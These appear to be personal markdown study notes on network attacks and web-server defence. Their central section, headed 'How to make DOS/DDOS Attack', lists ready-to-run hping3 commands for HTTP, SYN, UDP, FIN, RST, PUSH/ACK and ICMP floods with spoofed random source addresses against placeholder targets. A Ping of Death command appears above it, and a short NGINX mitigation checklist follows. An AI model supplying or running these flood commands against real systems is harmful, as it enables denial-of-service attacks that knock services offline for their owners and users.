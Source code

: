 ### Ping of Death Attack

> PoD is caused by an attacker deliberately sending an IP packet larger than the 65,536 bytes allowed by the IP protocol. Can be executed by running
> 
> ping -l 65610 somesite.com
> 
> Before 1997 many operating systems didn't know what to do when they received an oversized packet, so they froze, crashed, or rebooted.

### How to make DOS/DDOS Attack

https://linux.die.net/man/8/hping3

- For this you will need **hping3**:
    - _docker pull utkudarilmaz/hping3:latest_
- With this tool you can launch: HTTP Flood, TCP SYN Flood, UDP Flood, TCP FIN FLood, TCP RST Flood, PUSH and ACK Flood, ICMP Flood. And here is how:
- **HTTP flood**:
  - _docker run utkudarilmaz/hping3:latest --rand-source --flood [TARGET IP] -p [TARGET PORT]_
- **TCP SYN flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -S -q -n --flood [TARGET IP] -p [TARGET PORT]_
- **UDP flood**:
  - _docker run utkudarilmaz/hping3:latest --rand-source --udp --flood [TARGET IP] -p [TARGET PORT]_
- **TCP FIN Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -F --flood [TARGET IP] -p [TARGET PORT]_
- **TCP RST Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -R --flood [TARGET IP] -p [TARGET PORT]_  
- **PUSH and ACK Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -PA --flood [TARGET IP] -p [TARGET PORT]_  
- **ICMP Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -1 --flood [TARGET IP] -p [TARGET PORT]_

### How to protect NGINX?

https://blog.nginx.org/blog/mitigating-ddos-attacks-with-nginx-and-nginx-plus

- Limit the Rate of Requests
- Limit the Number of Connections
- Closing Slow Connections
- Blacklist suspicious IP Addresses
- Whitelist trusted IP Addresses
- Use Cache to Smooth Traffic Spikes
- Block suspicious Requests

---

## Storages Physics

### HDD 


[//]: # (### ✍️ Excalidraw schemes:)
[//]: # (- [Ticket master]&#40;excalidraw/ticket-master.excalidraw&#41;)
[//]: # (## System Desing resources)
[//]: # (![dZEbZaT.png]&#40;./images/system.design/dZEbZaT.png&#41;)